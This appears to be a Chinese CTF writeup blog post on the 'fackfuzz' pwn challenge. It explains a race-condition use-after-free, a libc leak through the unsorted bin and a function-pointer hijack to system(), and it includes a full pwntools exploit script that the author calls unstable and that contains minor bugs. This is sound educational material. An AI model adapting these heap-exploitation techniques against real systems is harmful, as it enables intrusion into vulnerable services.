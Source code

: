 ```yaml
---
layout: post
title: 安恒杯武汉大学邀请赛fackfuzz Writeup
categories: [CTF,Writeup]
description: 安恒杯武汉大学邀请赛AD模式的第二道pwn题，是一道多线程竞态条件的题目
keywords: fackfuzz, Writeup, 武汉大学邀请赛
---
```


# 安恒杯武汉大学邀请赛fackfuzz Writeup

## 漏洞分析

这道题目是我的一个本科同学出的，也是CTF中比较少见的多线程竞态条件的题目，我觉得这个题目出的还是蛮好的，于是就写一下writeup。
运行一下可执行程序，可以看到此程序是一个驱动的fuzz程序

```
---->fack driver fuzzing<----
1. add a driver to fuzz
2. prepare fuzz data
3. start fuzzing
4. stop fuzzing
5. view driver list
6. exit
```

*	add a driver to fuzz 会分配一个形为
	{drivername readfuzzer writefuzzer ioctlfuzzer}的结构体
*	prepare fuzz data会分配一个结构体，包含start fuzzing时调用的函数所需参数
*	start fuzzing会启用三个fuzz的线程分别对驱动进行不断读、写、以及ioctl。
*	stop fuzzing会free掉在add driver和prepare data所分配的结构体。
*	view driver list会查看当前已添加的driver的driver name列表

程序的漏洞存在于函数**sub_401336**中

```
void __fastcall __noreturn freethread(void *a1)
{
  int idx; // [rsp+1Ch] [rbp-4h]@1
  idx = *(_DWORD *)a1;
  currentidx = idx;
  isstop[idx] = 1;
  free(ptr[idx]);
  puts("wait for fuzz thread done");
  sleep(3u);
  ptr[idx] = 0LL;
  if ( threadnum < 0 )
    threadnum = 0;
  free(data[idx]);
  data[idx] = 0LL;
  puts("stop this fuzz done!");
  pthread_exit(0LL);
}
```

此函数会在调用stop fuzzing的时候以pthread_create创建新进程的形式运行。由于free之后会有一个3秒的间隔。这个间隔原意是等待fuzz线程的结束，但是也导致了一个竞态条件的漏洞。

在调用stop fuzzing之后，ptr[idx]会被free掉，但是ptr[idx]在3秒内并没有置0，所以通过这个竞态条件来构造use after free漏洞。

## 漏洞利用

### 泄漏libc地址

当ptr[idx]被free掉之后，原本的driver name因为堆块被free会被覆盖成unsortbin的地址，如果主线程再次调用view driver list，即可拿到unsortbin的地址，这是一个libc的data段的地址，根据这个地址我们可以算出system函数地址。

### 劫持控制流

以下函数为stop fuzzing的处理函数,该函数通过比对driver name获取一个idx，最终这个idx会作为函数**sub_401336**中的idx。

```
__int64 stopfuzz()
{
  signed int i; // [rsp+Ch] [rbp-74h]@3
  char s2; // [rsp+10h] [rbp-70h]@1
  __int64 v3; // [rsp+78h] [rbp-8h]@1

  v3 = *MK_FP(__FS__, 40LL);
  puts("input the driver name to stop fuzzing:");
  readn((__int64)&s2, 0x68uLL);
  if ( (unsigned int)checkname(&s2) )
  {
    for ( i = 0; i <= 9; ++i )
    {
      if ( ptr[i] && !strcmp(ptr[i], &s2) )
      {
        stop(i);
        return *MK_FP(__FS__, 40LL) ^ v3;
      }
    }
    puts("error name");
  }
  else
  {
    puts("invalid name");
  }
  return *MK_FP(__FS__, 40LL) ^ v3;
}
```

但是，如果我们如果按照以下顺序进行调用

1. add a new driver
2. prepare fuzz data
3. prepare fuzz data
4. stop fuzzing
5. add a new driver
6. stop fuzzing
7. prepare fuzz data

调用1 2 3会为ptr[0] data[0] data[1]分配内存，调用会释放ptr[0]的所对应的块，但是由于ptr[0]在3秒内并不会被置空。

5被调用后，ptr[1]会被重新分配ptr[0]所指向的内存，也就是说ptr[0]与ptr[1]指向的是同一块内存，

接着调用6，ptr[0]与ptr[1]所指向的内存会被再次free，由于ptr[0]与ptr[1]指向同一块内容，所以根据stop fuzzing的处理函数的逻辑，只有ptr[0]会被在3秒后置0，ptr[1]则会指向一个被free的内存块

最后调用7，将ptr[1]所指向的内存重新分配到字符串readdata中，通过对readdata进行修改即可控制ptr[1]所指向的带有函数指针的结构体的值。从而劫持控制流。

值得一提的是，由于我们拿到的shell是子线程的shell，所以我们无法直接与该shell进行交互，我们可以通过system("cat flag")拿到flag。

## exploit代码

```
from pwn import *;
from time import sleep;
port=8888
objname = "fackfuzz"
objpath = "./"+objname
io = process(objpath)
	
def readuntil(delim):
   	data = io.recvuntil(delim);
   	print data;
   	return data;
	
def readlen(len):
   	data = io.recv(len,1);
   	return data;
	
def readall():
   	data = io.recv(4096,1);
   	print data;
   	return data;
	
def write(data):
   	sleep(0.05)
   	io.send(str(data));
	    
def writeline(data):
   	sleep(0.05)
   	io.sendline(str(data));
	
def padding(size):
   	cf = "/bin/shcat/home/ctf/flag";
   	paddata = "";
   	for i in range(size):
        paddatax += cf[i%len(cf)];
   	return paddata;
	
def newdriver(name):
	writeline(1);
	writeline(name)
	readall()
def prepare(readsize,readdata):
	writeline(2);
	writeline(readsize);
	writeline(readdata);
	writeline(2);
	writeline(1);
	writeline(1);
	writeline(1);
	writeline(1);
   	readall()
def startfuzz(name):
    writeline(3);
    writeline(name);
    readall();
def stopfuzz(name):
    writeline(4);
    writeline(name);
    readall();
def viewdriver():
    writeline(5);
    print readuntil(":");
    return readuntil("\n")[:-1];
    	
def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    newdriver("/dev/haha1");
    prepare(10,"haha1")
    prepare(50,"cat flag > /dev/fd/1\x00")
    stopfuzz("/dev/haha1");
    usortbin=viewdriver();
    usortbin=usortbin+(8-len(usortbin))*'\x00';
    usortbin=u64(usortbin);
    system=usortbin-0x378178
    print hex(system);
    newdriver("/dev/haha3");0x01e36010
    stopfuzz("/dev/haha3");
    sleep(4)
    
    payload="/dev/haha4\x00"
    payload+=(0x68-len(payload))*"A";
    payload+=p64(system)*3;
    prepare(0x88,payload);
    print viewdriver()
    
    startfuzz("/dev/haha4");
    sleep(3)
    readall()＃get flag

attack()
```

**此exploit理论上应该没问题，但是实际攻击的时候却不是很稳定，有时候得不到flag，我调试了很久也没有找到原因，还希望找到原因的同学联系我分享一下你的想法,感激不尽**